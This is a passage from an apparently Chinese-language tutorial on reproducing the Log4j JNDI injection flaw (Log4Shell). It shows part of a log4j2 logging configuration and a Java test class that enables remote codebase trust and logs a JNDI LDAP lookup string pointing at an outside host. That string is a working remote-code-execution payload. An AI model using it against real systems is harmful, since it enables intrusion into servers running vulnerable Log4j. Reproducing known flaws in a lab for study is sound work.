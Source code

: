    > 
   >         
   >         <logger name="org.springframework.core" level="info" />
   >         <logger name="org.springframework.beans" level="info" />
   >         <logger name="org.springframework.context" level="info" />
   >         <logger name="org.springframework.web" level="info" />
   >         <logger name="org.jboss.netty" level="warn" />
   >         <logger name="org.apache.http" level="warn" />
   > 
   > 
   >         
   >         <root level="all">
   >             <appender-ref ref="Console"/>
   >             <appender-ref ref="RollingFileInfo"/>
   >             <appender-ref ref="RollingFileWarn"/>
   >             <appender-ref ref="RollingFileError"/>
   >         </root>
   > 
   >     </Loggers>
   > 
   > </Configuration>
   > ```

4. 编写测试代码。 

   ```java
   package com;
   import org.apache.logging.log4j.LogManager;
   import org.apache.logging.log4j.Logger;
   
   /**
    * @author fuping
    */
   public class Log4jTest {
       
       private static final Logger LOGGER = LogManager.getLogger(Log4jTest.class);
   
       public static void main(String[] args) {
           System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
           LOGGER.info("{}", "${jndi:ldap://172.16.102.19:9991/Attack}");
       }
   }
   ```



maven项目测试项目的源码可以在[github](https://github.com/duzhaosongyue/log4j_test)下载
